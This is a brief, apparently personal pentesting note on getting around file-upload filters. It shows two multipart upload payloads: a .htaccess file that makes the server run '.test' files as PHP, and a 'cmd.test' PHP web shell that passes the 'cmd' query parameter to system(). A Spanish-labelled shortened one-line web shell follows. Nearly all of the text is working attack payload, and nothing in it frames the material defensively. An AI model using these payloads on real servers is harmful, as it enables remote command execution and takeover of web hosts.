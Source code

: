 -- -
1. Content-Disposition: form-data; name="fileToUpload"; filename=".htaccess" 
    Content-Type: text/plain
    AddType application/x-httpd-php .test 
2. 
	Content-Disposition: form-data; name="fileToUpload"; filename="cmd.test" 
	Content-Type: application/x-php
	
	<?php
		system($_GET['cmd']);
	?>
==webshell super acortada:==
<?=`$_GET[0]`?>

